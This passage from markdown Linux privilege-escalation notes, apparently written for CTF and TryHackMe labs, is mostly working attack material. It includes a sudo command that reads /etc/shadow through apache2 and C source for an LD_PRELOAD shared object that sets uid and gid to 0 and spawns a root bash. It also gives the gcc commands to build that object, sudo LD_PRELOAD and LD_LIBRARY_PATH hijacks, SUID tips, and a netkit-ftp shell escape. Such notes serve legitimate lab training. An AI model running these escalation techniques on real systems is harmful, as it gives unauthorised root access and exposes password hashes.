Shell escaping, abusing intended functionality - **Check** [GTFOBins](https://gtfobins.github.io/)
```bash
sudo apache2 -f /etc/shadow
```

#### Sudo LD_PRELOAD  

#### if LD_PRELOAD appears in output
1. create .c -> compile  
1. gcc `gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles);`  
This:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

This set the `LD_PRELOAD` to the path of a shared object, which will be loaded before any other library (including C runtime, libc.so  
```bash
sudo LD_PRELOAD=/tmp/x.so [/some/bin/or/prog]
```
Tiberius Room versions/additions: 

Careful `-nostartfiles` Do not use the standard system startup files when linking.
```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c 
sudo LD_PRELOAD=/tmp/preload.so program-nam2e-here
```
Also
```bash
ldd /usr/sbin/apache2 # find shared libraries
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
````


## Set-UID/Set-GID

When a effective user or group ID (eUID, eGID) is granted to application it inherits UID or GID of the permissions of the file owner. Exploit-DB, Google, and GitHub. [GTFOBINs](https://gtfobins.github.io/) are your friends. Set User ID, Set Group ID permission files run in the context of owner, bash drops set-SUID permissions, but `dash` does not drop SUID permissions. [Special permissions documentation](https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits)

Not in GTFOBins [netkit-ftp - ChrisPritchard KOTH Carnage](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/koth-carnage.md)
```bash
/usr/bin/netkit-ftp !/bin/sh
```
